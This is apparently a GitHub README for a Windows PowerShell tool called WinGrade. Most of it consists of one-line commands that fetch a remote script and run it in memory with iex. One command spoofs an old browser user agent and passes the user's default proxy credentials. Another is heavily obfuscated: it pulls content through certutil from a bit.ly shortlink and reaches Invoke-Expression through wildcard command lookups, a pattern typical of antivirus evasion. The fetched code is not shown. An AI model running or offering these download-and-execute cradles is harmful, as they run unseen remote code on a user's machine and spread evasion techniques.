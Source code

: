 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.

Just execute [CMD]:
```powershell
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```powershell
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
in [POWERSHELL]:

```powershell
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

Tested on following Operating Systems:

|   System        |  x64  |  x86  |
| :---            | :---: | :---: |
| Windows 10      |  [x]  |  [ ]  |
| Windows 8.1     |  [x]  |  [ ]  |
| Windows 8       |  [ ]  |  [ ]  |
| Windows 7       |  [x]  |  [ ]  |
| Windows Vista   |  [ ]  |  [ ]  |

This Script is still in the early Alpha release!!! And has some bugs
